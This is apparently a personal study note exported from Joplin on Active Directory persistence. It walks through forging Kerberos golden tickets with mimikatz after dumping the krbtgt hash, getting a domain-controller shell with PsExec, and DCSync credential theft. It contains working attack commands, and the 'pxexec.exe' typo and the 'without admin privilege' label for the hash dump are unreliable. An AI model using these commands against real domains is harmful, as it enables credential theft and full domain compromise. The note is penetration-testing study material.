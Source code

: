 AD Persistence

to ensure no loss of access to compromised machine

Use traditional persistence methods in AD env, to gain AD-specific persistence

# Golden Tickets

If we are able to get the krbtgt password hash, we can create our own 'self-made' custom TGTs (golden tickets)

E.g. we can create a TGT stating a non-privileged user is actually a member of the Domain Admins group

![ab79b20e211fab5caae0a0e31a4e568c.png](:/115e2884e2c94f51980d5dd06780dd49)

In mimikatz (without admin privilege)

> privilege::debug
> 
> lsadump::lsa /patch

![511a148ae8355b0fd2e6189df8ed47d8.png](:/5bf844bdacbe4b35b6a823ee7a68af41)

Once done with obtaining the krbtgt hash, we create the golden ticket for the user we want to have it

> kerberos::purge
> 
> whoami /user # Get SID; Actually shown in Domain record during lsadump::lsa (shown above)
> 
> kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
> 
> misc::cmd # to allow cmd.exe to be executed

take note of the User ID and Group ID it is in the admin groups

Then use PsExec

> pxexec.exe \\\dc01 cmd.exe

![d71c5b92c386c9d7123f95ac1774d0cf.png](:/6d68a47fc3a0446a91ec14e0916b7728)

![bc1565b125b6948c6e04bc9f6577eb96.png](:/b4ced5cbeae746818757112f88f61167)

# Domain Controller Synchronisation

Steal all the password hashes for all admin users in the domain (use mimikatz and dump all the password hash of every user, or steal a copy of the NTDS.dit DB file)

- Leaves a access trail;
- May require us to upload tools to the server

Alternative way is to abuse AD functionality to capture hashes remotely from a workstation

In production env, domains usually have more than one DC to provide redundancy. A DC may request an update for a specific object (e.g. account) with the IDL_DRSGetNCChanges API

- DC receiving the request does not verify the request came from where; only associates SID has appropriate privileges
- Can use a member of Domain Admins to request and it will succeed

![dc0d21d90e4f78c0f18b834571bbda16.png](:/bc39b5c59a9f4d2a804a0ee4f59550dc)

> lsadump::dcsync /user:&lt;username&gt;

id: 8ceefc0c650f4adbb0c0023984623b15
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-01-31T02:33:12.651Z
updated_time: 2022-01-31T02:49:25.956Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-31T02:33:12.651Z
user_updated_time: 2022-01-31T02:49:25.956Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1